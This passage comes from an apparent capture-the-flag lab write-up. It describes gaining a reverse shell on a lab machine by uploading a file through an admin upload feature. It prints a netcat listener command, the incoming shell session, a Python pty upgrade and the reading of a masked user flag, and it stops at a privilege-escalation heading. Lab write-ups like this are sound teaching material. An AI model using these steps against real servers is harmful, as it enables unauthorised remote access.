 
# Reverse Shell

We remembered that admin is able to upload file, so we can create a reverse shell.

<img src="/assets/img/road_img/upload_file.jpg">

Notice that we must find the path, where our shell will be stored.

<img src="/assets/img/road_img/image_path.jpg">

And we get the user's flag.

<pre>
nc -nvlp 1234                                                                                                                                                   1 ⨯ 1 ⚙
listening on [any] 1234 ...
connect to [10.9.43.228] from (UNKNOWN) [10.10.128.41] 51058
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 13:00:29 up 3 min,  0 users,  load average: 0.87, 1.74, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/$
www-data@sky:/home/webdeveloper$ cat user.txt
cat user.txt
*****e4e*********e6bb62a5e*****
</pre>

# Priviledge Escalation - First Way
